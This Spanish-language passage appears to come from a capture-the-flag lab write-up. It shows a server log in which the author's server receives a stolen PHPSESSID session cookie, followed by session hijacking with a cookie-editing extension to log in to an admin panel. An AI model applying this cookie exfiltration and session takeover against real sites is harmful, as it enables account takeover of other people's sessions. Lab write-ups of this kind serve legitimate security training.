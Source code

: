 ![](assets/img/thl-writeup-elcliente/elcliente2_1.png)

* En mi servidor, recibo la cookie de sesión PHPSESSID de un usuario autenticado.

```terminal
	192.168.0.58 - - [05/Mar/2025 19:31:08] "GET /?cookie=PHPSESSID=07tvvif2b0b013popcsk4itlpv HTTP/1.1" 200 -
```

* Finalmente, utilizo la extensión Edit This Cookie para modificar la cookie en `admin.arka.thl/login`, lo que me permite acceder como un usuario válido.

![](assets/img/thl-writeup-elcliente/elcliente2_2.png)